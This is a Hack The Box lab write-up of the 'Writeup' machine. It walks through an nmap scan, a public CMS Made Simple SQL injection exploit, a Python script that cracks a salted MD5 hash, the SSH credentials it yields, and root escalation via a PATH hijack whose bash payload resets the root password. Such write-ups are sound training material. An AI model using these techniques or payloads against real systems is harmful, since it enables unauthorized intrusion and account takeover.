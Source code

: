 # Writeup (HACK THE BOX)

Hey guys today we will be doing Writeup from HackTheBox :) <br/>
![](logo.png)
<br/>

## Nmap Scan
```
[sarthak@sarthak ~]$ nmap -sV 10.10.10.138 -v -Pn
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-13 07:07 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 07:07
Completed Parallel DNS resolution of 1 host. at 07:07, 0.01s elapsed
Initiating Connect Scan at 07:07
Scanning 10.10.10.138 [1000 ports]
Discovered open port 80/tcp on 10.10.10.138
Discovered open port 22/tcp on 10.10.10.138
Completed Connect Scan at 07:07, 23.64s elapsed (1000 total ports)
Initiating Service scan at 07:07
Scanning 2 services on 10.10.10.138
Completed Service scan at 07:08, 6.72s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.138.
Initiating NSE at 07:08
Completed NSE at 07:08, 1.27s elapsed
Initiating NSE at 07:08
Completed NSE at 07:08, 0.00s elapsed
Nmap scan report for 10.10.10.138
Host is up (0.31s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.08 seconds

```
<br/>

Two services are running ..let's enumerate apache(port 80)

## Enumerating Web Server

![](Selection_009.png)
<br/>
According to the message we can see there's a dos protection waf is working which will an every ip which triggers 40x apache codes...<br/>

So rather than using dirb,gobuster,etc ...we will use burp to spider the domain ..
<br/>
![](Selection_010.png)
<br/>
Now we got a new directory named 'writeup' and i am using a really awesome extension named 'wappalyzer' which helped me to find that this directory has **cms made simple** installed...
<br/>
![](Selection_011.png)
<br/>

Now i found a blind time based sql injection whose exploit code is available 
 - [here](https://www.exploit-db.com/exploits/46635)

<br/>

![](Selection_007.png)

<br/>

```
python2 exp.py -u http://10.10.10.138/writeup/
```

I extracted the decrypt logic from the exploit and saw that before converting to md5 we have to concat it with salt so the final exploit code i created for finding password is
<br/>

```python
import hashlib

def crack_password():
    password="62def4866937f08cc13bab43bb14e6f7"
    output=""
    wordlist="rockyou.txt"
    salt="5a599ef579066807"
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
        #print(line)
        if hashlib.md5(str(salt) + line).hexdigest() == password:
            output += "\n[+] Password cracked: " + line
            print(output)
            break
    dict.close()


crack_password()
```

<br/>
The password extracted from the wordlist was raykayjay9

## Logging into ssh

So now we have credentials
 - username:- *jkr*
 - password:- *raykayjay9*
<br/> 

![](Selection_012.png)

<br/>

## Privesc 

Downloading pspy64 to snoop on processes
<br/>
![](Selection_013.png)
<br/>

Now if a user logged in by ssh we will see some commands being executed in the server which can be seen by pspy64 binary output
<br/>
![](Selection_014.png)
<br/>
The command was ...

```
sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

if we break this command into chunks and try to understand what it's doing is setting up the PATH variable in which we can see  `/usr/local/sbin`  was at top which means it will be given highest priority while looking for any binary by the operating system so... 

```
run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new
```

we can see  `run-parts`  is being executed and if we check the permissions of  `/usr/local/sbin`  we will notice that..

<br/>

![](Selection_015.png)

<br/>
our user is in the same group as of  `/usr/local/sbin`  so that means we can write stuff inside the  `sbin`  folder, So we will write a binary in /tmp folder with our malicious payload and give it permissions to execute and will copy it to the  `sbin`  folder...
<br/>
The payload will be..

```bash
#!/bin/bash
echo "root:pwned@123"|chpasswd
```

This will change the password of root to `pwned@123` so let's try this...
<br/>
![](Selection_016.png)
<br/>
Now we have copied the payload let's quickly log out and login back to ssh and test the credentials...
<br/>
![](Selection_017.png)
<br/>

And we rooted this box ...interesting machine it was,<br/>
<br/>
![](meme.gif)
<br/>  
If you guys liked this writeup of writeup lol stay tuned :)

